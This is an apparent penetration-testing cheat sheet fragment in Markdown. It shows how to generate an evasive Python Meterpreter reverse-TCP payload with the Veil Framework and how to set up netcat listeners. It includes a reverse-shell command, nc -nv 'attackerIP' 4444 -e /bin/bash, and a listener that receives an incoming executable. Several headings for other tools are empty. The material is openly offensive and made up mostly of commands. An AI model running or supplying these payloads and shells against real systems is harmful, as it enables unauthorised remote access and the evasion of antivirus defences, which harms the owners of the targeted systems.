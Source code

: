 ```
```
### Nmap Scripting Engine

# Payload Generation
### Cobalt Strike
### MSFvenom
### Veil Framework
start Veil Framework navigate to the /Veil Framwork directory.
```
./Veil.py
```
If you have the ability to select between "Evasion and Ordnance" use Evasion. 
Run the "list" command to show Available Tools.
Use the 'python/meterpreter/rev_tcp.py' option from the list. Example below
```
use 28
```
The check the Required Options. 
```
options
```
Set the lhost ip address. 
Now you can Generate the payload. 



# Listeners
### Cobalt Strike
### Metasploit
### netcat
Set up listening connection on port 4444
```
nc -nlvp 4444
```

Connect to remote machine on port 4444
```
nc -nv 10.0.0.2 4444
```
```
nc -nv "attackerIP" 4444 -e /bin/bash
```

Setup listening connection and redirect incoming input into an exe
```
nc -nlvp 4444 > incoming.exe
```
